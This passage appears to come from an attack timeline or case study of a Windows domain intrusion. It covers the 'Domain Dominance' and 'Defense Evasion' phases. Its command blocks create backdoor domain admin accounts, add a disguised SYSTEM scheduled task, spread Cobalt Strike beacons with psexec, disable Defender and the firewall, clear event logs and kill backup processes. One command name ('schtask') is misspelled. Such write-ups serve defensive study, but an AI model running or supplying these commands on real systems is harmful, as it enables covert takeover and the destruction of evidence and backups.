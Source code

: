 **Domain Dominance**:
```powershell
# Create new domain admin account (backdoor)
net user backup_svc P@ssw0rd123! /add /domain
net group "Domain Admins" backup_svc /add /domain

# Create scheduled task for persistence
schtask /create /tn "Windows Update Service" /tr "C:\Windows\Temp\update.exe" /sc onstart /ru SYSTEM

# Deploy Cobalt Strike beacons on critical servers
for /L %i in (1,1,20) do (
    psexec \\server%i -s -d -c beacon.exe
)

# Disable Windows Defender
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

**Persistence Mechanisms**:
1. **Multiple backdoor accounts** (5 domain admin accounts created)
2. **Web shells** on IIS servers
3. **Scheduled tasks** on 50+ servers
4. **WMI event subscriptions**
5. **Modified Group Policy Objects (GPOs)**

### Phase 6: Defense Evasion (Days 18-19)

**Disabling Security Controls**:
```bash
# Disable antivirus on all endpoints via GPO
# Disable Windows Event Logging
wevtutil cl System
wevtutil cl Security
wevtutil cl Application

# Clear PowerShell history
Remove-Item (Get-PSReadlineOption).HistorySavePath

# Disable firewall
netsh advfirewall set allprofiles state off

# Kill backup processes
taskkill /F /IM backup.exe
taskkill /F /IM veeam*
```

**Log Manipulation**:
- Cleared security event logs on compromised systems
- Disabled logging on domain controllers
- Modified audit policies
- Deleted backup logs
